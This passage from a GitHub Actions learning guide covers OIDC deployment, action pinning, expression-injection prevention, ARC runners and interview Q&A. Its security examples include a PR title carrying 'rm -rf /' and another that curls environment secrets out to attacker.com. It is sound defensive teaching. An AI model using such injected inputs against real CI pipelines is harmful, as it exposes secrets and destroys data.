

#### Production AWS OIDC Workflow Configuration
```yaml
name: Keyless AWS Deployment

permissions:
  id-token: write # Mandatory to request the OIDC JWT token
  contents: read  # Mandatory to checkout repository code

jobs:
  deploy-aws:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      - name: Authenticate to AWS via OIDC
        uses: aws-actions/configure-aws-credentials@v4
        with:
          role-to-assume: arn:aws:iam::123456789012:role/GitHubActionsDeploymentRole
          aws-region: us-east-1
          audience: sts.amazonaws.com

      - name: Deploy Infrastructure
        run: |
          aws sts get-caller-identity
          aws s3 sync ./dist s3://production-static-assets/
```

### 5.2 GitHub Environments, Required Reviewers & Deployment Branches
GitHub Environments provide production guardrails:
- **Required Reviewers**: Enforces manual approval before high-risk deployment jobs run.
- **Wait Timers**: Delays execution to allow automated soak tests.
- **Deployment Protection Rules**: Restricts access strictly to protected release branches.

```yaml
jobs:
  deploy-production:
    environment:
      name: production
      url: https://api.acme.corp/health
    runs-on: ubuntu-latest
    steps:
      - run: ./deploy-to-prod.sh
```

### 5.3 Supply Chain Hardening: Pinning by SHA, Dependabot, and StepSecurity
Third-party actions can be hijacked if an attacker compromises a mutable Git tag (e.g., `@v4`). Pin actions by their full immutable 40-character commit SHA:

```yaml
# Vulnerable to tag hijacking
uses: actions/checkout@v4

# Hardened against supply chain tampering
uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11 # v4.1.1
```

### 5.4 Secret Masking, Log Sanitation, and Preventing Expression Injection
Never interpolate untrusted user input (e.g., PR title, git commit message, issue body) directly into inline shell scripts:

```yaml
# CRITICAL VULNERABILITY: Expression Injection
# If PR title is: "; rm -rf / ; echo "
- run: echo "Processing PR: ${{ github.event.pull_request.title }}"

# SECURE REMEDIATION: Pass via Environment Variable
- name: Log PR Title Safely
  env:
    PR_TITLE: ${{ github.event.pull_request.title }}
  run: echo "Processing PR: $PR_TITLE"
```

---

## 6. Stage 6: Ephemeral Self-Hosted Runners & Scalable Infrastructure

### 6.1 Actions Runner Controller (ARC) on Kubernetes
**Actions Runner Controller (ARC)** is a Kubernetes operator that dynamically provisions ephemeral pod-based runners in your private Kubernetes cluster.



#### Runner Deployment Manifest
```yaml
apiVersion: actions.github.com/v1alpha1
kind: AutoscalingRunnerSet
metadata:
  name: enterprise-runner-set
  namespace: arc-runners
spec:
  githubConfigUrl: "https://github.com/acme-corp"
  minRunners: 2
  maxRunners: 50
  template:
    spec:
      containers:
        - name: runner
          image: ghcr.io/actions/actions-runner:latest
          resources:
            requests:
              cpu: "2000m"
              memory: "4Gi"
            limits:
              cpu: "4000m"
              memory: "8Gi"
```

---


### 6.5 Deep Dive: Ephemeral Runner Pod Lifecycle & Storage Volume Cleanup
When self-hosted runners process containerized builds, Docker-in-Docker (dind) or Kaniko containers can leave dangling layer caches and untracked volume mounts on the host node.



#### Comparison of Ephemeral Runner Storage Strategies:
| Storage Type | Performance | Cleanup Guarantee | Cost |
| :--- | :--- | :--- | :--- |
| `emptyDir: {}` (RAM / Node disk) | Extremely High (NVMe speeds) | 100% Guaranteed on Pod termination | Free with node |
| `PersistentVolumeClaim (PVC)` | High (ReadWriteOnce) | Requires automated garbage collection cron | Cloud EBS cost |
| Host Path Mount (`/var/run/docker.sock`) | Medium | High risk of host node contamination | Free |

### 6.6 Artifact Retention Strategies and GitHub Storage Optimization
By default, GitHub retains build artifacts and test logs for 90 days. In high-velocity repositories generating gigabytes of test reports daily, this quickly exceeds enterprise storage quotas.

```yaml
- name: Upload Test Report Artifact
  uses: actions/upload-artifact@v4
  with:
    name: test-results-${{ matrix.os }}
    path: reports/
    retention-days: 5 # Aggressively drop after 5 days to optimize billing
    compression-level: 9 # Maximum gzip compression
```

| Retention Parameter | Recommendation | Architectural Justification |
| :--- | :--- | :--- |
| `retention-days: 1-5` | CI Test logs & PR reports | PRs are typically merged or closed within days |
| `retention-days: 30-90` | Production deployment manifests | Needed for regulatory audit trails |
| `compression-level: 9` | All large binary/JSON artifacts | Reduces storage consumption up to 70% |

## 7. Stage 7: Staff DevOps & CI/CD Platform Architect Interview Handbook

### 7.1 High-Stakes Production War Stories & Post-Mortems

#### Scenario A: The Expression Injection Supply Chain Breach
- **Incident**: An attacker opens a Pull Request titled `feat: clean; curl http://attacker.com/steal?data=$(env)`. A CI step interpolates `${{ github.event.pull_request.title }}` inside a `bash` script string.
- **Root Cause**: Unsanitized context interpolation executing bash command substitution.
- **Remediation**:
  1. Revoke all exposed secrets immediately.
  2. Implement GitHub Actions linter (`actionlint`) to block context expressions inside `run:` blocks.
  3. Enforce passing all context data strictly via `env:` environment variable blocks.

#### Scenario B: Stalled CI Deadlock from Self-Hosted Runner Resource Starvation
- **Incident**: All engineering builds queued indefinitely during a major release cut.
- **Root Cause**: Docker container volume mounts filled up root disk partitions on static self-hosted EC2 runners without automated garbage collection.
- **Remediation**: Migrate to ephemeral Kubernetes ARC runners where every pod lifecycle is destroyed after execution, preventing state drift and disk exhaustion.

---

### 7.2 25 Exhaustive Technical Interview Questions & Answers

#### Q1: What is the exact execution distinction between `pull_request` and `pull_request_target`?
> **Answer**:
> - `pull_request`: Runs in the context of the merge commit (`refs/pull/PR_NUMBER/merge`) using code from the untrusted fork branch. It has read-only repository permissions by default and does not have access to repository secrets.
> - `pull_request_target`: Runs in the context of the base branch (e.g., `main`) of the target repository. It possesses read/write repository permissions and full access to repository secrets.
> **Critical Security Warning**: Never checkout untrusted fork code (`actions/checkout` with `ref: ${{ github.event.pull_request.head.sha }}`) inside a `pull_request_target` workflow, as it allows attackers to steal secrets via arbitrary code execution.

#### Q2: How does GitHub Actions OpenID Connect (OIDC) authentication work without static AWS keys?
> **Answer**:
> The GitHub Actions runner requests an OIDC token signed by GitHub's private key containing claims such as `repository`, `actor`, `ref`, and `environment`. The runner invokes AWS STS `AssumeRoleWithWebIdentity` sending this JWT. AWS STS queries GitHub's public OpenID configuration (`https://token.actions.githubusercontent.com/.well-known/openid-configuration`), verifies the cryptographic signature, matches the Trust Policy claims (e.g., `repo:acme/app:ref:refs/heads/main`), and issues temporary STS access credentials valid for 1 hour.

#### Q3: What is the difference between Composite Actions and Reusable Workflows?
> **Answer**:
> - **Composite Actions**: Run inside a step within an existing job. They cannot declare independent runner environments, separate permissions, concurrency groups, or standalone matrices. All composite steps execute on the caller's host runner.
> - **Reusable Workflows (`workflow_call`)**: Replace an entire job. They can declare their own jobs, runner platforms (`runs-on`), permissions, concurrency groups, and matrices. They provide enterprise-wide pipeline governance across independent repositories.

#### Q4: How do you implement dynamic matrix generation based on repository changes?
> **Answer**:
> Create a discovery job that runs first, evaluates changed directories using `git diff`, and outputs a JSON array:
> ```yaml
> jobs:
>   detect:
>     outputs:
>       matrix: ${{ steps.set-matrix.outputs.matrix }}
>     steps:
>       - id: set-matrix
>         run: echo "matrix=["svc-a", "svc-b"]" >> "$GITHUB_OUTPUT"
>   build:
>     needs: detect
>     strategy:
>       matrix:
>         service: ${{ fromJson(needs.detect.outputs.matrix) }}
> ```

#### Q5: What is the difference between `env` defined at the workflow, job, and step levels?
> **Answer**:
> GitHub Actions resolves environment variable scoping hierarchically:
> 1. Step-level `env:` overrides job-level definitions.
> 2. Job-level `env:` overrides workflow-level definitions.
> 3. Step commands that append to `$GITHUB_ENV` dynamically inject variables into all subsequent steps in that same job, overriding prior declarations.

#### Q6: Why does `actions/cache` sometimes report a cache hit but fail to restore dependencies?
> **Answer**:
> This happens when the cache key matches, but the target cache directory path was corrupted or partially unpacked due to unexpected process termination, or when tools write outside the cached path (e.g., caching `~/.npm` when packages were installed globally to `/usr/local/lib/node_modules`).

#### Q7: How do you prevent secret leakage in build logs when running commands with verbose debugging?
> **Answer**:
> GitHub Actions automatically redacts any registered secret string present in the `secrets` context. However, if a secret is transformed (Base64 encoded, URL encoded, or split across lines), the runner will not recognize the transformed string and will leak it. Use `core.setSecret('encoded_value')` or `echo "::add-mask::encoded_value"` in bash before executing commands to mask transformed representations.

#### Q8: How does the `fail-fast` strategy option operate within a matrix build?
> **Answer**:
> By default (`fail-fast: true`), if any single job in the matrix encounters an error, GitHub immediately cancels all currently in-progress and queued sibling matrix jobs. Setting `fail-fast: false` ensures every configuration in the matrix completes execution, allowing engineers to view comprehensive multi-platform test results.

#### Q9: What happens when two workflow runs with the same concurrency group trigger simultaneously?
> **Answer**:
> If `cancel-in-progress: false`, the second run is placed in a `queued` state and waits for the first run to complete. If `cancel-in-progress: true`, GitHub Actions immediately issues an abort signal to the currently executing job and begins executing the new run.

#### Q10: How do you safely test GitHub Actions locally without pushing commits to GitHub?
> **Answer**:
> Use **`act`** (nektos/act), an open-source CLI tool that reads `.github/workflows/` files and uses Docker to spin up containerized runner environments mimicking GitHub's Ubuntu runners on your local development workstation.

#### Q11: Explain the purpose and security risks of `workflow_run`.
> **Answer**:
> `workflow_run` triggers a workflow when a separate target workflow completes (or starts). It runs in the default branch context with read/write token privileges and secret access, even if the triggering workflow originated from a fork PR. It allows teams to safely process untrusted fork artifacts (e.g., uploading CodeQL reports or posting PR comments) after an untrusted build finishes.

#### Q12: How do you restrict actions to only those vetted and approved by your organization?
> **Answer**:
> Under Enterprise / Organization Settings $	o$ Actions $	o$ General:
> 1. Enable "Allow select actions and reusable workflows".
> 2. Check "Allow actions created by GitHub".
> 3. Specify explicit allowlists (e.g., `actions/*`, `aws-actions/*`, `docker/*`, `acme-corp/*`).

#### Q13: What is the difference between `$GITHUB_OUTPUT` and `$GITHUB_STATE`?
> **Answer**:
> - `$GITHUB_OUTPUT`: Passes key-value pairs from one step to subsequent steps within the same job (accessible via `${{ steps.<step_id>.outputs.<key> }}`).
> - `$GITHUB_STATE`: Saves information in a main action step that is passed exclusively to that same action's `post:` cleanup execution hook (e.g., temporary container IDs or authentication tokens that need cleanup).

#### Q14: How do you enforce mandatory branch protection checks via GitHub Actions?
> **Answer**:
> Configure GitHub Branch Protection Rules on `main`. Under "Require status checks to pass before merging", search and select the exact job name (e.g., `build-and-test (ubuntu-latest, 20.x)`). Pull requests cannot be merged until that job reports a successful exit status.

#### Q15: How can a step continue executing even if a preceding step failed?
> **Answer**:
> 1. Use the status check function `if: failure()` or `if: always()` on the downstream step.
> 2. Or set `continue-on-error: true` on the upstream step, which treats any non-zero exit code as a soft warning and preserves a green job status.

#### Q16: How do you securely share build artifacts between different jobs in a workflow?
> **Answer**:
> Use `actions/upload-artifact@v4` in Job A to upload files to GitHub temporary blob storage, and `actions/download-artifact@v4` in Job B (which declares `needs: Job A`) to retrieve and unpack the files.

#### Q17: What are the primary attack vectors against self-hosted runners on public repositories?
> **Answer**:
> Anyone can fork a public repository and open a pull request. If the workflow triggers on `pull_request` on a self-hosted runner, the attacker can execute arbitrary commands in the PR, access private internal network services, read AWS metadata endpoints, or compromise host runner filesystems.

#### Q18: What is SLSA, and how does GitHub Actions achieve SLSA Level 3 compliance?
> **Answer**:
> **Supply-chain Levels for Software Artifacts (SLSA)** is a security framework. GitHub achieves SLSA Level 3 by using the official SLSA generator actions with cryptographic provenance:
> 1. Non-falsifiable build provenance generated in isolated ephemeral runners.
> 2. Signed provenance using Sigstore / Cosign with immutable cryptographic OIDC identities.

#### Q19: Explain the difference between `hashFiles()` and static cache keys.
> **Answer**:
> `hashFiles('**/package-lock.json')` computes a cryptographic SHA-256 hash of file contents. If a dependency changes, the hash changes, generating a new cache key. Static cache keys never invalidate automatically and can cause stale build dependencies.

#### Q20: What are GitHub Actions Runner Scale Sets in ARC?
> **Answer**:
> Runner Scale Sets are the modern architecture for Actions Runner Controller (ARC) based on a pull-based listener rather than webhook forwarders. The listener polls the GitHub Actions backend service via HTTPS, requesting new jobs and scaling Kubernetes pods dynamically without requiring inbound firewall openings.

#### Q21: How do you configure timeout limits to prevent infinite billing on hanging tests?
> **Answer**:
> Set `timeout-minutes:` at the workflow or job level:
> ```yaml
> jobs:
>   test:
>     runs-on: ubuntu-latest
>     timeout-minutes: 15 # Default is 360 minutes (6 hours!)
> ```

#### Q22: What is step injection, and how does StepSecurity Harden-Runner prevent it?
> **Answer**:
> Step injection occurs when a compromised dependency or malicious action modifies the runner environment or exfiltrates credentials via unauthorized outbound network calls. Harden-Runner monitors system calls (using eBPF) on Ubuntu runners, blocks outbound traffic to unapproved IP addresses, and detects unexpected file modifications.

#### Q23: How do you handle secrets that exceed GitHub's 64KB secret size limit?
> **Answer**:
> 1. Store a HashiCorp Vault or AWS Secrets Manager access token in GitHub Secrets.
> 2. Fetch large configurations or binary certificates dynamically from the enterprise vault during pipeline execution.
> 3. Or encrypt the payload with GPG/SOPS, store the encrypted file in git, and keep only the private decryption key in GitHub Secrets.

#### Q24: What is the maximum duration a GitHub Actions job can execute before being terminated?
> **Answer**:
> 1. **Per-job execution**: Maximum 6 hours (360 minutes) for GitHub-hosted and self-hosted runners.
> 2. **Per-workflow execution**: Maximum 35 days (e.g., when waiting on manual approval gates).

#### Q25: How do you architect a multi-region zero-downtime deployment pipeline with canary verification in GitHub Actions?
> **Answer**:
> 1. **Staging Job**: Deploys to staging environment and runs automated smoke tests.
> 2. **Canary Job**: Deploys to Region A canary instances (10% traffic).
> 3. **Observability Gate Step**: Calls Datadog/Prometheus API to verify error rates remain $< 0.1\%$ for 10 minutes.
> 4. **Rolling Deploy**: Deploys to remaining production fleets in Region A and Region B in parallel.
> 5. **Automatic Rollback**: Triggers rollback script if canary health checks fail using `if: failure()`.

---

## 8. Community, Contributing & Support

We welcome contributions from DevOps, SRE, and platform engineers worldwide! Please review our contribution guidelines before submitting pull requests.

### Development Workflow
```bash
# 1. Clone your fork
git clone https://github.com/manthanank/learn-github-actions.git

# 2. Run automated test suite
node --test tests/github-actions.test.mjs

# 3. Lint workflow syntax
actionlint
```

- **Contributing Guidelines**: [CONTRIBUTING.md](CONTRIBUTING.md)
- **Code of Conduct**: [CODE_OF_CONDUCT.md](CODE_OF_CONDUCT.md)
- **License**: [MIT License](LICENSE)

---

<div align="center">
  <p>Maintained with precision by <b>Manthan Ank</b>.</p>
  <a href="https://www.buymeacoffee.com/manthanank">
    
  </a>
</div>
